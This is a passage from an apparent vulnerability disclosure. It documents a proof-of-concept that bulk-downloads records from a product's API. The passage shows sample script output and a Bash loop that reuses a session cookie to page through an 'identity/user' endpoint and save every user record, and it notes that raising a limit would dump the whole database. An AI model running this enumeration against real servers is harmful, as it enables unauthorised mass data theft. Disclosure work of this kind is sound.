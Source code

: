 ```
                Request: 5
        Service
                Request: 5
        Site
                Request: 5
        Stock
                Request: 5
        Vehicle
                Request: 5
Done
```

- The actual domain name of the server is obscured using `* * *` characters for security purposes. 
- `Request Limit: 5` indicates that the script is configured to retrieve up to `5` records.
- `Requests Retrieved: 5` without additional notice confirms that `5` records were successfully retrieved.
- `Request: 1 No Data` indicates that *one request* was made, but no data was available.
- `Request: 4 No More Dat`a indicates that f*our requests* were made, but only *three records* were retrieved, as no data was available on the fourth request.

By increasing the `BN_RQ_LIMIT`configuration  value, the entire BDM database can be downloaded. For a proof, a few sample records are sufficient.

### 5.4. Bash Script for Retrieving User Data

The full script is located in `./poc/dnl-sys-user.sh`. The following code segment illustrates how user data can be automatically downloaded from a server withoutrequiring knowledge of user IDs. The script sends HTTP GET requests to the `identity/user` endpoint, incrementing the `p` parameter until an empty result set is returned.

```bash
PAGE=0
while [ "${PAGE}" -lt "${BN_RQ_LIMIT}" ]; do
    printf "\r\t\tRequest: %d" "$((PAGE+1))" && do_delay
    # Request data
    DATA=$(curl -s -b "${BN_SESS_COOKIE}" "$(make_url_user "${PAGE}")")
    U_ID=$(json_extract_value "${DATA}" 'id') # User ID
    # Validate data, save or break
    if [ -n "${U_ID}" ] && [ "${U_ID}" != "unknown" ]; then
        echo "${DATA}" > "${DIR_OUT_SYS_USER}/user-${U_ID}.json"
    else
        printf "\n\t\t\t\t%s" "$([ "${PAGE}" -eq 0 ] && echo "No data" || echo "No more data")" && break
    fi
    ((PAGE++)) # Increase page number
done
```

#### How to use

To execute the script `dnl-sys-user.sh` from the `./poc` directory using a Bash command, you can use the following command:
